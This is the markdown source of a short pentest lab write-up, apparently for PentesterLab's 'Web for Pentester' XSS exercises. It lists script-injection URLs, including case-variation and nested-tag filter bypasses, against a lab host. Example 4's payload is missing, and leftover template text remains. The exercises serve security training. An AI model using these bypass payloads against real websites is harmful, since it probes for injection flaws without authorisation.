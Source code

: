 ```yaml
---
layout: post
title: "Pentesterlab - Web for pentester"
date: 2020-10-07 15:02:38 +0700
comments: true
categories: [web, lab, pentest] 
---
```

This is the description of the first post and test RSS (tag more)


<!--more-->



###Example 1
{% codeblock %}
http://vulnerable//xss/example1.php?name=hacker
http://vulnerable//xss/example1.php?name=<script>alert(1)</script>
{% endcodeblock %}

###Example 2
{% codeblock %}
http://vulnerable//xss/example2.php?name=hacker
http://vulnerable//xss/example2.php?name=<Script>alert(1)</Script>
{% endcodeblock %}

###Example 3
{% codeblock %}
http://vulnerable//xss/example3.php?name=hacker
http://vulnerable//xss/example3.php?name=<scr<script>ipt>alert(1)</sc</script>ript>
{% endcodeblock %}

###Example 4
{% codeblock %}
http://vulnerable//xss/example4.php?name=hacker
http://vulnerable//xss/example4.php?name=
{% endcodeblock %}